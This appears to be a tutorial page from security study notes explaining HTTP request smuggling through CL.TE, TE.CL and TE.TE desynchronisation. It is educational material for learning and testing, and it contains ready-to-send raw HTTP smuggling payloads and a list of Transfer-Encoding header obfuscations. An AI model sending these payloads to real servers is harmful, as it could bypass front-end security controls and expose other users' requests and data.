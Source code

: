 # HTTP Request Smuggling

HTTP request smuggling is a technique that is used to mess up the sequence of HTTP requests a website processes. These exploits are often critical in nature, as this can allow attackers to bypass security controls and gain access to sensitive data.&#x20;

## Smuggling 

When HTTP requests are sent to a server, the user sends requests to a front-end server, and then forward the traffic to the back-end. Typically, there are several requests sent over the same connection for maximizing efficiency. When HTTP requests are sent one after another, the receiving server parses the HTTP request headers **to determine where one request ends and the next one begins.**

It is normally processed in a queue data structure:

<figure><img src="../.gitbook/assets/image (145).png" alt=""><figcaption><p><em>Taken from Portswigger Web Security Academy</em></p></figcaption></figure>

Request smuggling happens when attackers embed a hidden request, which is then interpreted by the back-end as a separate request.

<figure><img src="../.gitbook/assets/image (535).png" alt=""><figcaption><p><em>Taken from Portswigger Web Security Academy</em></p></figcaption></figure>

Generally, the manipulation of the `Content-Length` or `Transfer-Encoding` headers allows for this. These headers count the length of the request sent differently.

* `Content-Length`
  * Counts the length of the message in bytes.
  * If we are sending a POST request with a parameter of `q=smuggle`, then the `Content-Length` header has a value of 9 as there are 9 characters.
* `Transfer-Encoding`
  * Specifies that the request uses **chunked encoding**.
  * Terminated by with a chunk size of zero.
  * Normally, browsers do not use chunked encoding, as they are normally used for **server responses.** Take note that it is possible to sent messages using this encoding as requests.
  
The message below has 1 chunk within it:

<pre class="language-http"><code class="lang-http">POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
<strong>
</strong><strong>b
</strong>q=smuggling
0
</code></pre>

Since the HTTP has 2 methods for specifying the message length, there can be conflicts in how they are processing messages. Requests can pass through different servers, and these servers might not support chunked encoding. The difference in behavior is what gives rise to this exploit.

### CL.TE

In this scenario, the front-end server uses the `Content-Length` header and the back-end uses the `Transfer-Encoding` header.&#x20;

To exploit this, we can send in a request like this:

```http
POST / HTTP/1.1
Host: example.com
Content-Length: 13
Transfer-Encoding: chunked

0

hello!!!
```

The front-end server processes the Content-Length header and determines that the request body only contains 13 bytes of data (inclusive of `\r\n` characters) and forwards this request. The back-end then sees the request using chunked encoding, this processing the first chunk, which is stated to be 0 length and terminates the request.&#x20;

The following bytes, the 'hello' portion is left unprocessed and the back-end server would treat this as **the start of the next request in sequence.** It is prepended to the next request in the queue.

One can send this request to check;

```http
POST /search HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Transfer-Encoding: chunked

e
q=smuggle&x=
0

GET /404 HTTP/1.1
Foo: x
```

If the exploit works, 404 is returned, indicating that the request was changed. If this method does not work, then change the request to have one character, **which would cause a time delay**.

### TE.CL

In this scenario, the back-end server uses the `Content-Length` header and the front-end uses the `Transfer-Encoding` header.&#x20;

We can now send this request:

```http
POST / HTTP/1.1
Host: example.com
Content-Length: 3
Transfer-Encoding: chunked

8
hello!!!
0
# \r\n\r\n goes here
```

The front-end uses TE to process the request, and sees that the first chunk of data is 8 bytes long. The back-end sees that the request body is 3 bytes long, which **is the newline and '8' character.** Then, the following bytes starting with the 'hello' portion is left unprocessed and the back-end server prepends this to the next request.

Here's one example payload, similar to the one above:

```http
POST / HTTP/1.1
Host: example.com
Content-Length: 3
Transfer-Encoding: chunked

8
GET /404 HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

a=
0
```

### TE.TE

In this scenario, both the front and back use `Transfer-Encoding` to process requests. The exploit here has to do with **obfuscating the header**. Here are some examples of changing the header:

```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```

The point of changing the header is to find whether the front and back end server processes it differently. Sometimes, obfuscation would change how the back-end server processes it, while the front-end sees it without difference. Fuzzing and good enumeration is key to identifying the vulnerability.

Depending on how the website processes information, the rest of the attack takes the same form as the CL.TE or TE.CL exploits.&#x20;